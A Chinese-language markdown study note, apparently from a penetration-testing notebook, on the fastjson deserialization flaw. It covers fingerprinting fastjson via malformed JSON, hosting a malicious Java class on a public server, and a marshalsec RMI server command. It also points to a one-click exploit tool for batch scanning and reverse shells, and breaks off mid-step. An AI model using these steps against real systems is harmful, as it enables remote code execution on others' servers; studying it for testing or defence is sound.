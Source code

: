 2. fastjson：是一款阿里巴巴的开源json解析库，它可以解析JSON格式的字符串，支持讲Java Bean序列化[^注2]为JSON字符串，也可以从JSON字符串反序列化[^注2]到JavaBean

   > 识别fastjson：故意报错，看返回包
   >
   > 1.  将网站的访问请求修改为POST类型
   > 2. 修改`Content-type`字段为`application/json`
   > 3. 在请求体中添加json数据，然后不做闭合（最简单的方式就是输入一个`{`）
   > 4. 查看返回包中是否含有fastjson字样的字符串

3. fastjson漏洞复现：

   ~~~text
   补充知识：RMI
   Java RMI（Java Remote Method Invocation），即Java远程方法调用。是Java编程语言里，一种用于实现远程过程调用的应用程序编程接口。
   RMI 使用 JRMP（Java Remote Message Protocol，Java远程消息交换协议）实现，使得客户端运行的程序可以调用远程服务器上的对象。是实现RPC的一种方式。
   -----------------------------------------------------------------------------------------------------
   参考资料：https://www.jianshu.com/p/5c6f2b6d458a
   ~~~

   > 1. 在公网服务器上开启RMI服务，并编写恶意java类（实现新增文件、创建目录、反弹shell）
   >
   >    > 1. 利用javac编译javac文件，然后放入服务器的http目录
   >    >
   >    >    > 1. 编写java文件：以TouchFile.java为例
   >    >    > 2. 编译java文件：javac TouchFile.java    →    生成TouchFile.class
   >    >
   >    > 2. 借助[marshalsec-0.0.3-SNAPSHOT-all.jar](https://github.com/RandomRobbieBF/marshalsec-jar)开启RMI服务
   >    >
   >    >    > 1. 确保目录下有marshalsec-0.0.3-SNAPSHOT-all.jar文件
   >    >    >
   >    >    > 2. 执行命令：`java -cp marshalsec-0.0.3-SNAPAHOT-all.jar marshalsec.jndi.RMIRefServer "http://服务器ip/#恶意类名" 监听端口`
   >    >    >
   >    >    >    ![image-20210903155730774](../images/12_命令执行漏洞/image-20210903155730774.png)
   >
   > 2. 在网上查找对应版本的POC，然后更改参数左右POST的请求的请求体即可

4. 漏洞利用工具：[mrknow001/fastjson_rec_exploit: fastjson一键命令执行 (github.com)](https://github.com/mrknow001/fastjson_rec_exploit)

   > **利用fastjson_check.py批量检测漏洞是否存在**
   >
   > 1. 将要检测的URL放到target.txt中
   >
   > 2. 执行`python fastjson_check.py`命令查看结果
   >
   >    ![image-20210903162753410](../images/12_命令执行漏洞/image-20210903162753410.png)
   >
   > ---
   >
   > **利用fastjson_tool.jar进行反弹shell**
   >
   > 1. 写好反弹shell的语句，进行编码
   >
   >    > 1. 进入网站：[@Jackson_T (jackson-t.ca)](http://www.jackson-t.ca/)

[^注1]:  POC：Proof of Concept，中文意思是“观点证明”。这个短语会在漏洞报告中使用，漏洞报告中的POC则是一段说明或者一个攻击的样例，使得读者能够确认这个漏洞是真实存在的。
[^注2]: 序列化分为两大部分：序列化和反序列化。序列化是这个过程的第一部分，将数据分解成字节流，以便存储在文件中或在网络上传输。反序列化就是打开字节流并重构对象。对象序列化不仅要将基本数据类型转换成字节表示，有时还要恢复数据。恢复数据要求有恢复数据的对象实例。